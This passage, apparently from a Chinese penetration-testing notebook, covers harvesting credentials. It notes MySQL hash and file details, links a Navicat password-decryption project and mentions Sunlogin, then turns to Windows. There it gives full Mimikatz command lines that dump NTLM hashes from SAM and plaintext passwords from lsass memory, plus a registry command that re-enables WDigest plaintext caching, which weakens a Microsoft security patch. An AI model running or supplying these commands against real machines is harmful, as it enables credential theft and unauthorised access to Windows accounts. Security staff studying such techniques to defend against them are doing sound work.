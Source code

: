 4.MySQL

[SQLI (SQL Injection) - MySQL](https://www.raingray.com/archives/1098.html/comment-page-1#:~:text=%E6%96%87%E4%BB%B6%E5%90%8D%E4%B8%BA%20user.MYD%EF%BC%8C%E6%89%BE%E5%88%B0%E8%B4%A6%E6%88%B7%E4%BB%8E%E6%98%9F%E5%8F%B7%E5%BE%80%E5%90%8E%E9%83%BD%E6%98%AF%E5%AF%86%E7%A0%81%EF%BC%8C%E8%BF%99%E4%B8%AA%E5%8A%A0%E5%AF%86%E6%96%B9%E5%BC%8F%E9%99%A4%E6%98%9F%E5%8F%B7%E5%A4%96%E4%B8%80%E5%85%B1%E6%98%AF%2040%20%E4%BD%8D%EF%BC%8C%E9%83%BD%E6%98%AF%E5%A4%A7%E5%86%99%E5%AD%97%E6%AF%8D%2B%E6%95%B0%E5%AD%97%E3%80%82Hash%20%E8%BF%90%E7%AE%97%E5%9C%A8%204.1%2D5.7.9%20%E7%89%88%E6%9C%AC%E4%B9%8B%E9%97%B4%E9%87%87%E7%94%A8%20MYSQLSHA1%EF%BC%8C%E5%AF%B9%E5%BA%94%E5%87%BD%E6%95%B0%E6%98%AF%20PASSWORD(str)%E3%80%82)

MySQL 数据库文件后缀名：

-   frm，表描述文件
-   MYD，表数据
-   MYI，表数据索引

5.Navicat

-   [https://github.com/HyperSine/how-does-navicat-encrypt-password](https://github.com/HyperSine/how-does-navicat-encrypt-password)

6.向日葵

##### Windows 本地账户哈希和密码获取

###### Mimikatz

提取哈希和密码最常用到就是 [Mimikatz](https://github.com/gentilkiwi/mimikatz)，通常由在目标机器上运行工具读需要管理员权限，或者是离线下载读则不需要。

一、目标机器运行工具读取

1.上传并运行可执行文件⚒️

lsadump::sam 从 SAM 数据库中获取 NTLM Hash。其余几个选项，log 输出运行结果到 res.txt 文件，privilege::debug 获取 SeDebugPrivlege 权限访问 lsass.exe 进程，token::elevate 模拟 SYSTEM 账户 Token 权限。

```plaintext
mimikatz.exe "log res.txt" "privilege::debug" "token::elevate" "lsadump::sam" "exit"
```

sekurlsa::logonpasswords 从内存中获取明文密码。

```plaintext
mimikatz.exe "log logon.txt" "privilege::debug" "sekurlsa::logonpasswords" "exit"
```

对于 Mimikatz 读不到 lsass 进程内存明文密码是因为微软在 Windows 7、Windows Server 2012 R2 及以后版本打了补丁 [KB2871997](https://support.microsoft.com/zh-cn/topic/microsoft-%E5%AE%89%E5%85%A8%E5%85%AC%E5%91%8A-%E7%94%A8%E4%BA%8E%E6%94%B9%E8%BF%9B%E5%87%AD%E6%8D%AE%E4%BF%9D%E6%8A%A4%E5%92%8C%E7%AE%A1%E7%90%86%E7%9A%84%E6%9B%B4%E6%96%B0-2014-%E5%B9%B4-5-%E6%9C%88-13-%E6%97%A5-93434251-04ac-b7f3-52aa-9f951c14b649#:~:text=%E5%BF%85%E9%A1%BB%E5%AE%89%E8%A3%85%202984972%E3%80%82-,WDigest%20%E8%AE%BE%E7%BD%AE,-%E5%AE%89%E8%A3%85%E6%AD%A4%E5%AE%89%E5%85%A8)，此补丁让系统默认关闭 WDigest 认证，内存不保存明文密码。

不过此功能可以手动设置注册表 HKEY\_LOCAL\_MACHINE\\System\\CurrentControlSet\\Control\\SecurityProviders\\WDigest 为 1 启用，之后重启服务器或等管理员重新登录后才能获取到明文密码。

```plaintext
reg add HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential /t REG_DWORD /d 1 /f
```

